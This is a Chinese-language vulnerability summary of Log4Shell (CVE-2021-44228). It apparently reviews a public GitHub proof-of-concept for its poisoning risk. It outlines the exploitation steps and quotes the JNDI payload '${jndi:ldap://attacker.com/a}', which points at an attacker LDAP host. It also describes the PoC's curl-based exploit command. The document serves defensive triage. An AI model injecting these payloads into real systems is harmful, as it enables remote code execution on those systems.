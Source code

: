## CVE-2021-44228 Log4Shell RCE

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j2

**危害等级:** 严重，允许未经身份验证的远程代码执行

**影响版本:** <= 2.14.1 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 应用程序使用受影响的Log4j版本，并且允许记录用户可控的输入，同时启用消息查找替换。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228，也被称为Log4Shell，是一个存在于Apache Log4j2中的严重漏洞。该漏洞允许攻击者通过向日志消息或日志消息参数中注入恶意JNDI查找字符串，例如`${jndi:ldap://attacker.com/a}`，来执行任意代码。当Log4j2处理包含该字符串的日志消息时，它会尝试通过JNDI从攻击者控制的LDAP服务器检索Java对象。如果JVM配置允许，该对象将被反序列化并执行，从而导致远程代码执行。

**利用方式：**
1.  攻击者识别使用Log4j2且记录用户可控输入的应用程序。
2.  攻击者构造包含恶意JNDI查找的payload，并将其注入到应用程序可以记录的任何输入字段中（例如，HTTP头、表单参数等）。
3.  当应用程序记录包含恶意payload的输入时，Log4j2会尝试解析JNDI查找。
4.  Log4j2向攻击者控制的LDAP服务器发出请求。
5.  攻击者的LDAP服务器返回一个指向恶意Java类的引用。
6.  应用程序下载并执行恶意Java类，从而允许攻击者在目标系统上执行任意代码。

**评估POC代码：**
提供的PoC代码包含一个Dockerfile和Makefile，用于演示和利用CVE-2021-44228漏洞。Makefile包含用于构建Docker容器、启动/停止应用程序、触发漏洞利用和修补受害者应用程序的命令。`make exploit` 命令使用curl发送一个包含恶意JNDI payload的HTTP请求，该payload的目标是`${jndi:ldap://$(LHOST):$(LPORT)/a}`。该代码有效演示了漏洞利用。

**投毒风险：**
虽然PoC代码本身旨在演示和利用该漏洞，但任何从不受信任的来源下载的代码都存在潜在的风险。在本例中，投毒风险较低（约为10%），因为代码相对简单且易于审查。需要注意的是，Makefile的`exploit`命令和docker-compose.yml 中涉及的镜像如果被篡改，可能会引入恶意行为。用户应仔细检查所有代码，尤其是与网络连接和代码执行相关的部分，然后再执行PoC。代码中提供的Exploit.class ，本身就是一个后门代码,务必不要把POC验证的后门代码判定为投毒代码。docker-compose.yml 中涉及的镜像需要人工review.

**项目地址:** [arabindadora/log4shell](https://github.com/arabindadora/log4shell)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)